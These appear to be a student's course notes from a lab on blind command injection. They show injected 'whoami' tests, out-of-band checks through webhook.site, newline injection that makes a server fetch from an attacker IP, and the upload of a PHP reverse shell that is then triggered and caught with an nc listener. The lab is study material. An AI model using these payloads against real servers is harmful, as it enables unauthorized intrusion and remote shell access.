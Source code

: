 * #commandInjection  
* With blind command injection, we aren't getting feedback from the web server
* Also, sometimes our characters are getting filtered, so we have to work around that
## Testing
* `https://tcm-sec.com`
	* Response : "Website OK"
	* Previusly, the web server gave more data, so we don't get feedback on our command this time == BLIND
	* Last time we got our command as output
* `https://tcm-sec.com/FakeURl`
	* Respone: "Website not found"
	* Definitely blind command injection
*  `https://tcm-sec.com; whoami; asd`
	* Response : "Website OK"
	* It looks like we have input filtering happening, so we need to work around that
## Validating Blind Injection
* We need to validate our blind command injection, a couple ways to do it
	* Use backticks to execute command
		* OOB - Out-of-band , since we are catching it somewhere else
		* Catch the above execution  with webhook.site, similar to the xss lab.. and have the command injection send a curl request there to validate it works
	```shell
https://webhook.site/abcdefg?`whoami`
```
	* the whoami will execute, then a curl request is made  to the entire address, and we get the result in the webhook.site interface
## Try Triggering newline
```shell
# start web server to OOB catch of command injection
python3 -m http.server 8000

https://tcm-sec.com \n wget 192.168.176.129:8888/test
```
* If successful, we will see the failed GET request for the non-existant test file

## Build and Upload Payload
```shell
cp  /usr/share/webshells/laudanum/php/php-reverse-shell.php /tmp/
mv php-reverse-shell.php rev.php
subl rev.php
# update IP and PORT, then save
#start NC listening
nc -nvlp 8888

# technique 1
https://tcm-sec.com && curl 192.168.176.129:8000/rev.php > /var/www/html/rev.php

# technique 2
https://tcm-sec.com \n wget 192.168.176.129:8000/rev.php

```

## Trigger Payload
* If we are successful, we'll see the 200 status code in the python server shell
* Now browse to the file on the webserver to execute
* If successfull, we should get a shell in our nc listener



